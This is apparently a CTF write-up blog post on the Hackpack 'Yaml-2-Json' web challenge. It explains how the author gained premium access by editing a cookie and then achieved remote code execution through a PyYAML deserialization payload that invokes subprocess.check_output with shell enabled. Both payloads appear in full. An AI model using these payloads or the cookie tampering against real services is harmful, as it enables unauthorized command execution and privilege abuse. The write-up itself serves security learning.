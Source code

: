 ```yaml
---
title: "Yaml-2-Json Hackpack CTF"
author: "Trevor saudi"
date: 2021-04-17T18:46:32.088Z
lastmod: 2022-05-24T14:31:54+03:00

description: ""

subtitle: "Exploiting a deserialize vunlerability in pyyaml"

image: "/posts/2021-04-17_yaml2json-hackpack-ctf/images/1.png" 
images:
 - "/posts/2021-04-17_yaml2json-hackpack-ctf/images/1.png"
 - "/posts/2021-04-17_yaml2json-hackpack-ctf/images/2.png"
 - "/posts/2021-04-17_yaml2json-hackpack-ctf/images/3.png"
 - "/posts/2021-04-17_yaml2json-hackpack-ctf/images/4.png"


aliases:
    - "/yaml-2-json-hackpack-ctf-7de28ef0ecff"


tags:
- pyyaml
- code injection
---
```


## Exploiting a deserialize vunlerability in pyyaml

Hackpack has recently concluded and we placed 47th out of 447 teams. In this short writeup we look at Yaml-2-Json in the web category

![image](/posts/2021-04-17_yaml2json-hackpack-ctf/images/1.png#layoutTextWidth)

### Enumeration

In this challenge we exploit a code execution vulnerability in pyYaml- a yaml parser and emitter for python. The server is using [pyYAML](https://github.com/yaml/pyyaml/tree/5.3.1) and Flask.

We get a simple web page with an option to parse yaml to json. I thought of using python payloads to get some code execution but they failed at first.

![image](/posts/2021-04-17_yaml2json-hackpack-ctf/images/2.png#layoutTextWidth)


The message at the bottom hinting that I was not on a premium account prompted me to investigate the cookies.

Interestingly enough we can modify the premium value to true so we get premium privileges on the service

![image](/posts/2021-04-17_yaml2json-hackpack-ctf/images/3.png#layoutTextWidth)


So let’s go for RCE and read our flag from the server

### Exploitation 

I used the following payload at first but it fails since subprocess will only accept single commands like `whoami, id`

```python3 
user_input: !!python/object/apply:subprocess.check_output ['cat /tmp/flag.txt']
```

My teammate [Koimet](https://twitter.com/k0imet_) helped me refine my payload to the following which gives us the flag
```python3 
user_input: !!python/object/apply:subprocess.check_output
       args: [ cat /tmp/flag.txt ]
       kwds: { shell: true }
```
![image](/posts/2021-04-17_yaml2json-hackpack-ctf/images/4.png#layoutTextWidth)

